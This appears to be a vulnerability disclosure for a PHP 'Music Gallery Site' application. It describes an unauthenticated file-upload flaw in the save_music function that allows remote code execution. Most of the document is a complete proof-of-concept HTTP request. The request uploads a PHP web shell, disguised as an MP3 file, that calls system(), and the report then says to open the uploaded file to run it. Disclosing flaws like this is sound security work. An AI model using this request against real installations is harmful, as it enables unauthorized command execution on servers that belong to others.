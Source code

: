 # Music Gallery Site using PHP and MySQL Database Free Source Code - Arbitrary file vulnerability uploading leads to command execution
+ Author: liwenjie
# Vendor Homepage
+ https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html
# Software Link
+ https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-music.zip
# Overview
+ liwenjie has discovered a vulnerability classified as critical in Music Gallery Site using PHP and MySQL Database Free Source Code V1.0. The function upload is affected. This operation will result in unrestricted uploads. Remote attacks can cause RCE.And this process does not require any authentication.
# Vulnerability Details
+ Music Gallery Site using PHP and MySQL Database Free Source Code V1.0
+ Vulnerable File: classes/Master.php?f=save_music
+ Parameter Names: audio_file
+ Attack Type: Remote
# Description
+ liwenjie has discovered a vulnerability classified as critical in Music Gallery Site using PHP and MySQL Database Free Source Code V1.0. The function upload is affected. This operation will result in unrestricted uploads. Remote attacks can cause RCE.And this process does not require any authentication.
# Note
+ No authentication is required to exploit this vulnerability.
# Proof of Concept (PoC) : 

![1](https://github.com/xuanluansec/vul/blob/main/vul/img/24.png)
```
POST /classes/Master.php?f=save_music HTTP/1.1
Host: www.php-music.com:8096
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------363362219137260101561507717379
Content-Length: 6077
Origin: http://www.php-music.com:8096
Connection: close
Referer: http://www.php-music.com:8096/admin/?page=musics/manage_music
Cookie: PHPSESSID=i397e039ttvd4p34j9r3ufidk6

-----------------------------363362219137260101561507717379
Content-Disposition: form-data; name="id"


-----------------------------363362219137260101561507717379
Content-Disposition: form-data; name="title"

333
-----------------------------363362219137260101561507717379
Content-Disposition: form-data; name="artist"

333
-----------------------------363362219137260101561507717379
Content-Disposition: form-data; name="category_id"

3
-----------------------------363362219137260101561507717379
Content-Disposition: form-data; name="description"

333
-----------------------------363362219137260101561507717379
Content-Disposition: form-data; name="banner_img"; filename=""
Content-Type: application/octet-stream


-----------------------------363362219137260101561507717379
Content-Disposition: form-data; name="audio_file"; filename="aaa.php"
Content-Type: audio/mpeg

ID3    "fTIT3      Õ¾³¤ËØ²Ä(sc.chinaz.com)TPUB      Õ¾³¤ËØ²Ä(sc.chinaz.com)WOAR     Õ¾³¤ËØ²Ä(sc.chinaz.com)TENC      Õ¾³¤ËØ²Ä(sc.chinaz.com)TALB      Õ¾³¤ËØ²Ä(sc.chinaz.com)TYER      2019TPE2      Õ¾³¤ËØ²Ä(sc.chinaz.com)TIT2      Õ¾³¤ËØ²Ä(sc.chinaz.com)TCON      Õ¾³¤ËØ²Ä(sc.chinaz.com)COMM      chi Õ¾³¤ËØ²Ä(sc.chinaz.com)TPE1      Õ¾³¤ËØ²Ä(sc.chinaz.com)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ÿûx$                                                                                                                                                                                                                                                                                                                                                                                                                                            ÿûx  ¼IHA 7 ,B Q-lÉ©($À`ÙÀ$%Q¸ åÁúQVA|ç¨yu8O'ò½N/îû§ø
<?php system("ipconfig");
-----------------------------363362219137260101561507717379
Content-Disposition: form-data; name="status"

1
-----------------------------363362219137260101561507717379--
```
# Note: Markdown syntax may not be displayed completely. It is recommended to download the MD file and copy the content
open http://www.php-music.com:8096/uploads/audio/aaa.php
![2](https://github.com/xuanluansec/vul/blob/main/vul/img/25.png)
